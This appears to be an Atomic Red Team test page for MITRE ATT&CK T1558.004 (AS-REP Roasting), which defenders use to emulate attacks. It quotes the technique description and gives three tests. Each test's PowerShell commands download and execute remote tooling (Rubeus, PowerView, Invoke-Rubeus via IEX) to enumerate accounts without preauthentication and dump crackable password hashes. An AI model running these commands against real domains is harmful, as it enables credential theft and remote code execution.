 # T1558.004 - Steal or Forge Kerberos Tickets: AS-REP Roasting
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/004)
<blockquote>Adversaries may reveal credentials of accounts that have disabled Kerberos preauthentication by [Password Cracking](https://attack.mitre.org/techniques/T1110/002) Kerberos messages.(Citation: Harmj0y Roasting AS-REPs Jan 2017) 

Preauthentication offers protection against offline [Password Cracking](https://attack.mitre.org/techniques/T1110/002). When enabled, a user requesting access to a resource initiates communication with the Domain Controller (DC) by sending an Authentication Server Request (AS-REQ) message with a timestamp that is encrypted with the hash of their password. If and only if the DC is able to successfully decrypt the timestamp with the hash of the user’s password, it will then send an Authentication Server Response (AS-REP) message that contains the Ticket Granting Ticket (TGT) to the user. Part of the AS-REP message is signed with the user’s password.(Citation: Microsoft Kerberos Preauth 2014)

For each account found without preauthentication, an adversary may send an AS-REQ message without the encrypted timestamp and receive an AS-REP message with TGT data which may be encrypted with an insecure algorithm such as RC4. The recovered encrypted data may be vulnerable to offline [Password Cracking](https://attack.mitre.org/techniques/T1110/002) attacks similarly to [Kerberoasting](https://attack.mitre.org/techniques/T1558/003) and expose plaintext credentials. (Citation: Harmj0y Roasting AS-REPs Jan 2017)(Citation: Stealthbits Cracking AS-REP Roasting Jun 2019) 

An account registered to a domain, with or without special privileges, can be abused to list all domain accounts that have preauthentication disabled by utilizing Windows tools like [PowerShell](https://attack.mitre.org/techniques/T1059/001) with an LDAP filter. Alternatively, the adversary may send an AS-REQ message for each user. If the DC responds without errors, the account does not require preauthentication and the AS-REP message will already contain the encrypted data. (Citation: Harmj0y Roasting AS-REPs Jan 2017)(Citation: Stealthbits Cracking AS-REP Roasting Jun 2019)

Cracked hashes may enable [Persistence](https://attack.mitre.org/tactics/TA0003), [Privilege Escalation](https://attack.mitre.org/tactics/TA0004), and [Lateral Movement](https://attack.mitre.org/tactics/TA0008) via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078).(Citation: SANS Attacking Kerberos Nov 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rubeus asreproast](#atomic-test-1---rubeus-asreproast)

- [Atomic Test #2 - Get-DomainUser with PowerView](#atomic-test-2---get-domainuser-with-powerview)

- [Atomic Test #3 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus](#atomic-test-3---winpwn---powersharppack---kerberoasting-using-rubeus)


<br/>

## Atomic Test #1 - Rubeus asreproast
Information on the Rubeus tool and it's creators found here: https://github.com/GhostPack/Rubeus#asreproast
This build targets .NET 4.5.  If targeting a different version you will need to compile Rubeus

**Supported Platforms:** Windows


**auto_generated_guid:** 615bd568-2859-41b5-9aed-61f6a88e48dd





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_folder | Local path of Rubeus executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads|
| local_executable | name of the rubeus executable | string | rubeus.exe|
| out_file | file where command results are stored | string | rubeus_output.txt|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd.exe /c "#{local_folder}\#{local_executable}" asreproast /outfile:"#{local_folder}\#{out_file}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_folder}\#{out_file} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```
##### Description: Rubeus must exist
##### Check Prereq Commands:
```powershell
if(Test-Path -Path #{local_folder}\#{local_executable}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile #{local_folder}\#{local_executable}
```




<br/>
<br/>

## Atomic Test #2 - Get-DomainUser with PowerView
Utilizing PowerView, run Get-DomainUser to identify domain users. Upon execution, progress and info about users within the domain being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** d6139549-7b72-4e48-9ea1-324fc9bdf88a






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus
PowerSharpPack - Kerberoasting Using Rubeus technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 8c385f88-4d47-4c9a-814d-93d9deec8c71






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "asreproast /format:hashcat /nowrap"
```






<br/>
